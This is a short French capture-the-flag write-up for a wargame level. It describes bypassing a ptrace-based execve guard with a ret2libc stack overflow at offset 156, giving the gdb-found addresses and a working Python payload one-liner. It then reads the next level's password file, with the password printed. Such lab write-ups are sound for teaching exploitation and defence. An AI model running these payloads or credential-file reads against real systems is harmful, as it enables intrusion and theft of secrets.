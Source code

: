 # level04

Le programme parent nous empêche de faire un `execve()` avec l'appel à `ptrace` \
(Si c'est le syscall d'`execve`, `11`, il va `kill` l'enfant)

[Table des syscalls](https://github.com/torvalds/linux/blob/v4.17/arch/x86/entry/syscalls/syscall_32.tbl#L17)

Sinon, on peut voir qu'on overflow dans le child après un offset de `156`

Avec gdb:
- `info function system`: `0xf7e6aed0  system`
- `find &system, +9999999, "/bin/sh"`: `0xf7f897ec`

On fait un ret2libc:
```
(python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + 'DUMM' + '\xec\x97\xf8\xf7'"; cat) | ./level04
```

Et on va chercher le password:
```bash
cat /home/users/level05/.pass
# 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
